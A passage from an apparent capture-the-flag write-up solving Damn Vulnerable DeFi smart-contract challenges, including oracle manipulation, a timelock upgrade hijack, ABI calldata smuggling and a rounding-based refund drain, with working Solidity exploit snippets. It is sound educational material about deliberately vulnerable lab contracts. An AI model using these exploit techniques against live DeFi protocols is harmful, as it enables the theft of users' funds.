    uniswapV1Exchange.tokenToEthSwapInput(PLAYER_INITIAL_TOKEN_BALANCE, 1, block.timestamp + 15 minutes);

    uint256 depositRequiredAfter = lendingPool.calculateDepositRequired(1e18);
    console.log("Deposit required after ETH deposit: %d", depositRequiredAfter);

    uint256 tokenBalanceOfPool = token.balanceOf(address(lendingPool));
    uint256 depositRequiredToBorrowAll = lendingPool.calculateDepositRequired(tokenBalanceOfPool);

    // Borrow all tokens and transfer to recovery
    lendingPool.borrow{value: depositRequiredToBorrowAll}(tokenBalanceOfPool, recovery);
```

## 9 - Puppet V2

The setup is the same as in the previous challenge. The only difference is that the lending pool now uses Uniswap V2 as a price oracle and the exchange has more liquidity. The goal is to save all DVT tokens from the lending pool.

Uniswap V2 supports time-weighted average prices that are under some assumptions (long enough period, enough liquidity) a good approximation of the current price (see [Uniswap Docs](https://docs.uniswap.org/contracts/v2/concepts/core-concepts/oracles)). The issue is that puppet pool does not utilize Uniswap V2's TWAP capabilities but only uses the current spot price as it is evident from the oracle function:

```javascript
function _getOracleQuote(uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) =
            UniswapV2Library.getReserves({factory: _uniswapFactory, tokenA: address(_weth), tokenB: address(_token)});

        return UniswapV2Library.quote({amountA: amount * 10 ** 18, reserveA: reservesToken, reserveB: reservesWETH});
    }
```

This discovery means the attack vector is the same as in the previous challenge but with one caveat which we will later see. First we going to do the same swap as in the previous challenge and swap all our DVT tokens for ETH.


```javascript
 address[] memory path = new address[](2);
        path[0] = address(token);
        path[1] = address(weth);
        uniswapV2Router.swapExactTokensForTokens(
            PLAYER_INITIAL_TOKEN_BALANCE,
            0,
            path,
            player,
            block.timestamp + 15 minutes
        );
```

Before the swap the lending pool required 300,000 ETH to borrow all DVT tokens. After the swap the pool requires only 29 ETH which is still more than the 20 ETH the player has. So this time around we have to use the lending pool to borrow some DVT tokens with the ETH that we already swapped to acquire even more DVT tokens to manipulate the price further.

```javascript
// I did some trial and error to find the correct amount to borrow, maybe there is a better way to do this
// A function where all the input would be weth and the output the maximum amount of DVT tokens would be beneficial
lendingPool.borrow(300_000e18);

uniswapV2Router.swapExactTokensForTokens(
            token.balanceOf(player),
            0,
            path,
            player,
            block.timestamp + 15 minutes
        );
```

After the second swap to manipulate the price further and the fact that we have already borrowed nearly 1/3 of the total DVT tokens of the lending pool. The ETH needed to borrow the remaining DVT tokens has decreased to only 0.03 ETH. Finally we borrow the remaining DVT tokens and swap the remaining ETH we have to DVT tokens.

```javascript
// Now the price is low enough so that we can borrow all the remaining DVT tokens with the weth we have
lendingPool.borrow(token.balanceOf(address(lendingPool)));

// After borrowing all the DVT tokens we still have some weth left that we can swap for DVT tokens in uniswap
weth.approve(address(uniswapV2Router), type(uint256).max);
path = new address[](2);
path[0] = address(weth);
path[1] = address(token);
uniswapV2Router.swapExactTokensForTokens(
    weth.balanceOf(player),
    0,
    path,
    player,
    block.timestamp + 15 minutes
);
```

## 10 - Free Rider

Free Rider is an NFT marketplace which offers 6 NFTs for sale. The goal is to take all NFTs and some of the marketplace's ETH balance. The player starts with 0.1 ETH and the developers offer a bounty of 45 ETH for the recovery of the NFTs.

1. **First challenge**: The marketplace has a vulnerability in its `_buyOne` function. The issue is that the ownership of the NFT is transferred to the buyer first and then the owner receives the payment. The intention of the devs was that the previous owner receives the payment. Since ownership is transferred first, the payment goes to the buyer of the NFT instead. Therefore the buyer pays itself for the NFT. Because `msg.value` is only checked on a per NFT basis, the value send has to be greater than the price of the most expensive NFT but not of all NFT's combined. Abusing the bug, the player will receive 6\*15 ETH - 15 ETH for the first purchase = 75 ETH.

2. **Second challenge**:The player only has a balance of 0.1 ETH and the NFTs cost 15 ETH each (90 ETH in total). Because of the mentioned vulnerability, the player only needs to have 15 ETH to buy all NFTs (the player is "refunded" after every purchase). To
   get the 15 ETH initially the player can use a flash swap on the provided uniswap v2 contract. The flash swap can be repaid
   with the received bounty after the NFTs are transferred to the recovery.

## 11 - Backdoor

Someone want to incentivize the creation of safe wallets within their team. Therefore the team member will be granted
10 DVT tokens when they create a wallet. The wallet registry implements a callback which is triggered after a wallet was created. In that callback checks are carried out to check if the wallet was actually created by one of the colleagues. If all checks are passed the new wallet will receive 10 ether.

The vulnerability relies on the initializer that can be passed in the creation of a new wallet. The initializer calls
the setup function to setup the new wallet. In this setup a contract and a delegated call executed on that contract can be set. The contract can be set to a malicious one we created before which has a function that approves the player to spend the wallet owners DVT tokens. The checks in the callback pass because everything seems properly configured. The player can than transfer all DVT tokens from the wallets of the team members to the recovery account.


## 12 - Climber

There is a vault with 10 million DVT tokens. The vault is UUPS upgradable and manged by a time lock controller. Proposers can schedule actions like the withdrawal of a limited amount of funds through the time lock controller. The specialized role `sweeper` can withdraw all funds from the vault at once.

My first two ideas to check are:
1. Is there any way to become the `sweeper`?
2. Can the upgradability of the vault be exploited?


### Becoming the sweeper

The sweeper address is only set once in the constructor of the vault to a `sweeper` address. There is no other way to set the sweeper address. This does not seem to be a viable attack vector.


### Exploiting the upgradability

As usual the `_authorizeUpgrade()` function is restricted to only be execute by the owner. Let's check who the owner is. The ownership of the climber vault and thus of the upgradability is transferred to the time lock in the constructor of the vault. So the time lock vault is in charge of the upgradeability.

The upgrade of the vault would be triggered through an operation which is first scheduled in the time lock through the `schedule()` function and afterwards executed with the `execute()` function. The `schedule()` function can only be executed by the proposer. But the `execute()` function on the other hand can be executed by anyone. Let's check the `execute()` function.

As we have mentioned before, only scheduled operations should be able to be executed. But what we can observe is that the operations are first executed and only afterwards it is checked whether the operation was scheduled:

```javascript
                        bytes32 id = getOperationId(targets, values, dataElements, salt);
                        for (uint8 i = 0; i < targets.length; ++i) {
@> Execution                targets[i].functionCallWithValue(dataElements[i], values[i]);
                        }
@> Scheduled check       if (getOperationState(id) != OperationState.ReadyForExecution) {
                            revert NotReadyForExecution(id);
                        }
```

The next idea is to verify if there is any way to get the operation to the `ReadyForExecution` state within the execution. There is one other vulnerability that we haven't covered yet but that is crucial for the next step. In the constructor of the time lock, where the roles are assigned, the contract itself gets the `ADMIN_ROLE` (`_grantRole(ADMIN_ROLE, address(this));`). This inturn means that every executed operation can execute any function since it executed by the contract who has the `ADMIN_ROLE`. Back to the execute function:

There are two condition that have to be met for the operation to be considered `ReadyForExecution`:
1. It has to be scheduled 
2. A `delay` has to have passed since the operation was scheduled

We cannot wait for the `delay` to be passed because the operation has to be ready for execution right after it has been executed (see in the code above, the check is right after the execution). Luckily there is an `updateDelay` function in the time lock which can only be executed by the time lock itself. So first, we are going to update the delay to `0` and then we can schedule operations. 

There is still one issue that we have to solve before we can get to the upgradeability: The operation ids of the scheduled operations and the executed operations have to be the same. Whether operations were properly scheduled before execution is checked based on a operation id which is the hash of the `targets`, `values`, `dataElements` and a `salt`: 

```javascript
function getOperationId(
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements,
        bytes32 salt
    ) public pure returns (bytes32) {
        return keccak256(abi.encode(targets, values, dataElements, salt));
    }
```

To have the same operations scheduled as executed we have to call schedule directly before execute. Otherwise we would have other operations in between execution in scheduling which would lead to different operation ids. The solution to this problem is to move the scheduling of all operations to a single function. This function is shown in the following image:



A separate contract, here called `Scheduler`, takes the same operations (so that the operation ID will be the same) and schedules them via the `scheduleOperation()` function right before execute is called and the operations are executed.

Next to the `updateDelay()` and the `scheduleOperation()` operation that we have covered so far there are two other operations: First `grantRole()` on the time lock contract and after that `transferOwnership()` on the vault contract. `grantRole()` is called to give our `Scheduler` contract the `PROPOSER_ROLE` to be able to schedule operations. Otherwise it wouldn't even be able to schedule the operations right before the execution. Remember that our goal was to highjack the upgradeability of the vault? That is what the `transferOwnership()` operation is for. It transfers the ownership of the vault to us, so that we can call `_authorizeUpgrade()` which is protected by `onlyOwner`.

Finally after we have managed to highjack the upgradeability of the vault we can upgrade the vault to a malicious contract that has a function to transfer all DVT tokens to us.

```javascript
MaliciousVaultUpgrade upgrade = new MaliciousVaultUpgrade();
vault.upgradeToAndCall(address(upgrade), "");
MaliciousVaultUpgrade(address(vault)).withdrawAll(address(token));

token.transfer(recovery, VAULT_TOKEN_BALANCE);
```

## 13 - Wallet Mining

Again there is an incentive to create safe wallets. A list of wallet addresses is approve listed to receive 1 ether when a wallet is created at a specific address. The second part of the challenge is that the team transferred 20 million DVT tokens to a user at `0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b` but lost the nonce they should use for deployment. So no wallet exists at this address. The `AuthorizerUpgradeable` is an upgradable contract with the transparent proxy pattern.

1. **First challenge**: As soon as I heard that funds are at a specific address on which we need to create a wallet I thought of the `CREATE2` opcode. The opcode allows for deterministic creation of contract addresses using only a salt. Because we want to create a safe wallet on that specific address we can utilize the `SafeProxyFactory::createProxyWithNonce` which computes the salt for the `CREATE2` based a hash of the initializer and a `saltNonce` we need to supply.

```javascript
    function createProxyWithNonce(address _singleton, bytes memory initializer, uint256 saltNonce) public returns (SafeProxy proxy) {
        // If the initializer changes the proxy address should change too. Hashing the initializer data is cheaper than just concatinating it
        bytes32 salt = keccak256(abi.encodePacked(keccak256(initializer), saltNonce));
        proxy = deployProxy(_singleton, initializer, salt);
        emit ProxyCreation(proxy, _singleton);
    }
```

For figuring out the salt we can just create a big for loop that iterates of a large set of numbers. The other input parameter the `initializer` is a little more difficult to figure out. We need to read the challenge's description carefully to figure the input parameters out. It says that the owner of the wallet should be the user and it's signature threshold should also be 1. All the other parameters should be the default ones.
We end up with the following `initializer`:

```javascript
bytes memory initializer = abi.encodeWithSelector(
            Safe.setup.selector,
            owners,
            1,
            address(0),
            "",
            address(0),
            address(0),
            0,
            payable(address(0))
        );
```

Now we have to create a loop to try out a big number of different `saltNonce` values to find the one which will generate the correct wallet address (`0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b`).

```javascript
for (uint256 i = 0; i < 10000; i++) {
    SafeProxy proxy = proxyFactory.createProxyWithNonce(
        address(singletonCopy),
        initializer,
        i
    );
    if (address(proxy) == USER_DEPOSIT_ADDRESS) {
        console.log("Wallet deployed at address: ", address(proxy));
        console.log("with Nonce: ", i);
        break;
    }
}
```

With the nonce figured out we can move over to the second challenge.

1. **Second challenge**: The second challenge is to recover the 1e18 DVT tokens that were send to the `WalletDeployer` contract to pay out the rewards for creating wallets. When looking at the contract I see that variable names are obfuscating their actual purpose. In addition the `WalletDeployer::can` function is written in inline assembly to make it more difficult to read. After clarifying all variables and the assembly function there don't seem to be any obvious vulnerability. What can be observed is that the `WalletDeployer::drop` function is relying on an authorizer contract to check which user is allowed to create a wallet and get rewarded.

### The autorizer contract

The `AuthorizerUpgradeable` is an upgradable contract, that is upgradable through the transparent proxy pattern. In short, the transparent proxy pattern puts the upgrade logic in the proxy and not in the implementation contracts. The proxy implementation used here is the `ERC1967Proxy` from OpenZeppelin. The implementation contracts are made upgradable through the `ERC1967Utils` also by OpenZeppelin.

When ever I see an upgradable contract there are multiple possible vulnerabilities I think of. First, if there is any possibility to highjack the ownership of the upgrade logic. `TransparentProxy` houses the upgrade logic. The upgrade can only be executed proxy admin which is only set in the `constructor` to the deployer of the contract. The second possible vulnerability is to check wether the implementation contract was initialized properly. To check that I just tried to call the `AuthorizerUpgradeable::init` again and it by my surprise it did not revert. It took me a while to realize what was happening here: The re-initialization should be blocked by a `needsInit` flag that is set to `0` when the `init` function was run. So far so good. But an important best-practice was not followed here: To mirror the storage layout to the proxy where the variables we actually be stored. Because the storage layout is different between the proxy and the implementation contract it causes some clashes between the storage variables which is visualized below.

`AuthorizerUpgradeable` storage layout:
| Name | Type | Slot | Offset | Bytes |  
|-----------|-------------------------------------------------|------|--------|-------|
| needsInit | uint256 | 0 | 0 | 32 |
| wards | mapping(address => mapping(address => uint256)) | 1 | 0 | 32 |

`TransparentProxy` storage layout:
| Name | Type | Slot | Offset | Bytes |
|----------|---------|------|--------|-------|
| upgrader | address | 0 | 0 | 20 |

The `needsInit` variable is stored at the same storage slot as the `upgrader` variable of the proxy. This means that when the `AuthorizerUpgradeable::init` function is called the `needsInit` variable is set to `0` but the `upgrader` variable of the proxy is set to the address of the caller when `TransparentProxy::setUpgrader` is called afterwards, effectively overwriting the `needsInit` variable with a non-zero value and thus allowing for re-initialization.

The vulnerability allows the player to re-initialize the `AuthorizerUpgradeable` contract and set the `wards` mapping to the `users` address where we going to create the wallet from the first challenge afterwards. Because the user handed us their private key to save their funds I can now transfer the 20 million DVT tokens from the safe wallet back to the user and the 1 DVT token from the wallet (which was rewarded to us because I set the user to be a warden and created a wallet) to the original ward.

## 14 - Puppet V3

We have a Uniswap v3 lending pool that uses some more sophisticated time weighted average price oracle (TWAP). The pool has 100 WETH and 100 DVT in liquidity. The lending pool has a million DVT tokens. The goal is to save all funds from the vulnerable lending pool and send them to the designated recovery account.

The vulnerability in this challenge to exploit is quite obvious when you have done the other puppet challenges before. We need to find some attack vector to manipulate the price of the oracle to get a swap price that allows us to fully drain the pool's million DVT tokens with our small initial balance. But first let's explore how uniswap v3 works and how its different from uniswap v2.

### Uniswap v3

-   Uniswap v3 introduces the concept of concentrated liquidity. Concentrated liquidity allows liquidity to be supplied in a specific price range. Opposed to uniswap v2 where the liquidity you provide is spread across the whole price range. For example you can choose to supply your $10,000 of liquidity between the ETH price range of 2800 and 3000. As a result the protocol has way more liquidity in this price range as opposed to v2 where the $10,000 would be spread across the whole price range at many prices where it will never be traded at. The downside for the LP is that if price is outside of the provided range the LP will not earn any fees. The improved capital efficiency is visualized below. The red user can earn the same fees by only investing 12% of what the blue user invested, making the red user 8.34% more capital efficient.
    
    When there is no liquidity at a certain price range, there a huge incentive for LPs to provide liquidity at that price range because they would earn all the trading fees.

-   TODO: I do not understand how range limit orders work
-   LP positions are now tracked by ERC721s and not by ERC20 tokens as in v2
-   The previously fixed fee on swaps (0.3 %) can now be configured between 3 fee tiers (0.05%, 0.3%, and 1%). 0.05% will most likely be used for very similar priced tokens like stablecoins, 0.3% for most other tokens and 1% for very volatile tokens.
-   Uniswap v3 uses TWAP price oracles opposed arithmetic mean in Uniswap v2 and is more gas efficient. The TWAP of the last 9 days can be calculated with a single call.

### Attack vector

The price oracle aka the Uniswap V3 pool is not as easy to manipulate as Uniswap V2 because price updates are more often observed and prices are more difficult to manipulate due to the concentrated liquidity.
Two conditions make it possible for us to manipulate the price oracle:

1. Although the buffer for saving prices is set to maximum 40 observations, currently there is only one observation in the buffer. This is due to the lack of activity in the pool.
2. We own more DVT (110 DVT) than the whole pool (100 DVT) which means that investing all our DVT in the pool will have a significant impact on the price.

First we going to swap all our DVT for WETH to flood the pool with DVT and thus lowering the price of it.

```javascript
function swapDVTForWETH(
        uint256 dvtAmount
    ) public returns (uint256 wethAmountOut) {
        // Approve the router to spend DVT
        TransferHelper.safeApprove(
            address(token),
            address(swapRouter),
            dvtAmount
        );

        ISwapRouter.ExactInputSingleParams memory params = ISwapRouter
            .ExactInputSingleParams({
                tokenIn: address(token),
                tokenOut: address(weth),
                fee: FEE, // 0.3% fee tier
                recipient: player,
                deadline: block.timestamp,
                amountIn: dvtAmount,
                amountOutMinimum: 0, // Be careful with this in production!
                sqrtPriceLimitX96: 0
            });

        // Execute the swap
        wethAmountOut = swapRouter.exactInputSingle(params);

        // For safety, reset the allowance to 0
        TransferHelper.safeApprove(address(token), address(swapRouter), 0);
    }
```

We can check the required WETH deposit to get the million DVT tokens from the pool directly after the swap and see that it has not changed yet. Its still the original 3x amount of WETH deposit that is required. That is because our new manipulated price has not settled in the oracle yet.

```javascript
lendingPool.calculateDepositOfWETHRequired(1_000_000e18); // 3_000_000_e18
```

The requirements of the challenge allows us to wait for 114 seconds to let the price settle. After the price has settled we can see that the required deposit is now only 0.14 WETH. That means we can effort to buy all the DVT tokens from the pool with our small initial balance of 1 WETH.

```javascript
lendingPool.calculateDepositOfWETHRequired(1_000_000e18); // 0.14e18
```

Finally, we borrow the million DVT tokens from the pool and send them to the recovery account.

```javascript
lendingPool.borrow(1_000_000e18);
token.transfer(recovery, LENDING_POOL_INITIAL_TOKEN_BALANCE);
```

## 15 - ABI Smuggling

There is a vault with two different actions. One allows users to withdraw 1 DVT token every 15 days. The other is
for the owner to sweep all funds in case of emergency. The goal is to trick the authorization scheme to allow the player to sweep all funds from the vault.

### Authorization scheme

The `AuthorizedExecutor::execute` function reads the function selector of the action to execute and checks if the caller is authorized to execute the action. The selector is read from a fixed offset (100 bytes) from the `calldata`:

```javascript
bytes4 selector;

uint256 calldataOffset = 4 + 32 * 3; // calldata position where `actionData` begins
assembly {
    selector := calldataload(calldataOffset)
}
```

The offset is calculated based on the function signature of the `execute` function:
4 bytes for the function selector + 32 bytes for the first parameter (address target) + 64 bytes for the dynamic sized `actionData` parameter.

### How dynamic function parameters are encoded

The `actionData` parameter is a dynamically sized bytes array. Other than fixed sized parameters, dynamic sized parameters are encoded in the `calldata` in a different way. The first 32 bytes of the dynamic parameter is the offset to where the length of the dynamic parameter is stored. Directly after the 32 bytes for the length the actual bytes data is stored. Because no other parameter follows the dynamic bytes parameter in the `execute` function, the offset would be `0`. Directly following the offset would be the length of the dynamic data. When encoding the function call `withdraw(address,address, uint256)` the length would be: 4 bytes for the function selector + 32 bytes for the address + 32 bytes for the second address + 32 bytes for the uint256 = 100 bytes.

```
calldata = bytes32 offset = 0 + bytes32 length = 100
```

### The attack vector

The vulnerability relies on the fact that the `selector` on which the authorization is based is always read from the calldata with an offset of 100 bytes. Normally that would be the first 4 bytes of the `actionData` which in turn should the the selector of the function the user would like to execute. When the user is authorized for the provided selector the function would the `actionData`. So our goal is to have the selector at offset 100 bytes to be one for that the user is authorized for but have the actionData to be the `SelfAuthorizedVault::sweepFunds` function. 

Remembering how dynamic `calldata` works we know that it contains a offset pointer to the actual data. Currently this pointer points the `selector` at offset 100 bytes. If we could move that pointer to point we a call to the `sweepFunds` function would be encoded, we could trick the authorization scheme to execute the `sweepFunds` function. The conversion of dynamic `calldata` to the offset pointer and length indicator is done automatically by the EVM. To put be able to manipulate those values we have to craft our own `calldata` object. Here is the plan:

1. The first 4 bytes will be the selector of the `AuthorizedExecutor::execute` function to get our malicious function executed.
2. The next 32 bytes will be the first parameter to the `execute` function which is the `target` address of the vault.
3. The next 32 bytes is already the offset pointer to the dynamic `actionData` parameter. I'll come back later to explain how large this offset should be.
4. The next 32 bytes (68-100) will be blank. To spoil a little bit: The encoded call to the `sweepFunds` function will be 68 bytes long. Therefore it does not fit in this space and we will move it after the authorization `selector` at byte 100.
5. The next 4 bytes will be the authorization `selector` for the `withdraw` function that allows us to bypass the authorization scheme.
6. The next 32 bytes will be the length indicator for the dynamic `actionData` parameter. As I said before the encoded call to the `sweepFunds` function will be 68 bytes long. Therefore the length indicator should be 68.
7. The last and final 68 bytes will be the encoded call to the `sweepFunds` function including its two 32 byte long parameters.

Coming back to the calculation of the offset pointer. Now that we have the full picture we can see that there are 36 bytes between the pointer and the length indicator where the pointer should point to. Those 36 bytes are composed of the empty 32 bytes and the 4 bytes of the authorization `selector`. The whole layout of the `calldata` is visualized below.



It took me a while to figure out how to properly encode the data to have the correct padding on all the values. The final `calldata` object is shown below.

```javascript
bytes4 executeFunctionSelector = AuthorizedExecutor.execute.selector; // 1cff79cd
bytes memory target = abi.encode(address(vault)); // 0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b264
bytes memory bytesOffsetPointer = abi.encodePacked(uint256(100)); // 0000000000000000000000000000000000000000000000000000000000000064
bytes32 fillerBytes; // 0000000000000000000000000000000000000000000000000000000000000000
bytes4 withdrawFunctionSelector = SelfAuthorizedVault.withdraw.selector; // d9caed12
bytes memory bytesLength = abi.encodePacked(uint256(68)); // 0000000000000000000000000000000000000000000000000000000000000044
bytes memory sweepFunction = abi.encodeWithSignature( // 85fb709d + 00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b
    "sweepFunds(address,address)",
    recovery,
    address(token)
);
bytes memory data = abi.encodePacked(
    executeFunctionSelector,
    target,
    bytesOffsetPointer,
    fillerBytes,
    withdrawFunctionSelector,
    bytesLength,
    sweepFunction
);
```

Finally, we call the `SelfAuthorizedVault` with our crafted `calldata` object.

```javascript
address(vault).call(data);
```
## 16 - Shards

There is a NFT marketplace where NFTs can be sold in fractions. A single player is selling a NFT for 1 million USDC that is split into
10_000_000e18 shards.The idea of fractional NFTs is similar to inofficial ERC-404 (https://github.com/Pandora-Labs-Org/erc404).

As soon as I heard the prices are in USDC but payment is handled through DVT I thought of an issue due to the different decimal places of the two tokens. USDC has 6 decimal places and DVT has 18 decimal places. The difference and decimal places plus the huge number of shards (10 million e18) got me curious and I started digging into the price calculations.

### Buying shards

To buy shards you have to use the `ShardsNFTMarketplace::fill` function. The amount of DVT the user has to pay is dependent on
the number of shards the user wants to buy (`want`), the price of the whole NFT in USDC (`offer.price`), the exchange rate between USDC and DVT (`_currentRate`) and the number of shards for the whole NFT (`offer.totalShards`):

```javascript
paymentToken.transferFrom(
    msg.sender, address(this), want.mulDivDown(_toDVT(offer.price, _currentRate), offer.totalShards)
    );
```

Let's first look at the `_toDVT` function that converts USDC to DVT. The function is defined as follows:

```javascript
function _toDVT(uint256 _value, uint256 _rate) private pure returns (uint256) {
        // _rate: 0.075e18 => 1 USDC == 0.075 DVT
        return _value.mulDivDown(_rate, 1e6);
    }
```

The magic number `1e6` is usually the precision that is used to not loose to many decimal places when working with fixed point numbers. Doing an example calculation with the given values shows that the conversion seems correct. With the default rate of `75e15` results in 1 USDC being equal to 0.075 DVT. 


Let's get back to the transfer:
1. The NFT on sale is offered at 1_000_000e6 USDC. When we put the offer price and the default exchange rate of `75e15` into the `_toDVT` function we get 75_000e18.
2. The second operation is the `mulDivDown` function which first starts with the multiplication of the `want` (the number of shards the user wants to buy) and the result of the `_toDVT` function. If we want to buy 10 shards the result is 10*75_000e18 = 750_000e18. 
3. We do the division of the result of the multiplication and the total number of shards of the NFT. The total number of shards is 10_000_000e18. The result of the division is 750_000e18 / 10_000_000e18 = 0.075 and the result is rounded down to 0. The player has to pay nothing for 10 shards. If we increase the amount of shards to buy we can see that we can buy up to 13 shards without needing to pay anything. 

### Canceling the order

Once the waiting period is over we can cancel our order of shards to get a refund. We can immediately see that something is off in the `ShardsNFTMarketplace::cancel` function. The function calculates the refund the user should get back in DVT. But it misses the conversion from USDC to DVT. The refund is calculated as follows:

```javascript
paymentToken.transfer(buyer, purchase.shards.mulDivUp(purchase.rate, 1e6));
```

When selling our 13 free shards we can see that we get 13 * 75e15 = 97.5e10 DVT. The last step is to put those two operations (buying free shards and canceling the order to get a refund) together in large loop to drain the whole pool. After 100_000 iterations we got enough DVT to complete the challenge and send all the funds to the recovery account.

## 17 - Curvy Puppet

TBD

### What is Curve Finance?

Curve Finance is a DEX based on liquidity pools. Curve Finance specializes in the exchange of stablecoins.

- Anyone can create new pools.
- Curve has low slippage
- Curve supports multi asset pools with 3 or more tokens
- Pools can support lending and borrowing 
- Curve (v1) aka StableSwap focuses the liquidity on a specific price range (e.g. 1) for stable coins
- Curve CryptoPools (v2) use concentrated liquidity and supported non-stable assets
  - The difference is that the dynamic peg automatically adjusts the pools behavior and LP don't have to do anything
- Fees are between 0.04% and 0.4% depending on the pool
- CRV token is the governance token of Curve DAO
  - It is given to LPs
  - LPs can boost their CRV rewards by locking CRV tokens (veCRV)
- When locking CRV tokens users get vote-escrowed CRV (veCRV) tokens
  - Locking for longer periods gives more veCRV

- **vAPY**: Variable Annual Percentage Yield. The expected yield (returns) for a liquidity provider in a year based on the current state of the pool. Often compounding is expected (earning returns on both the initial investment and the accumulated returns from previous periods, earning "interest on intereset").


## 18 - Withdrawal

TBD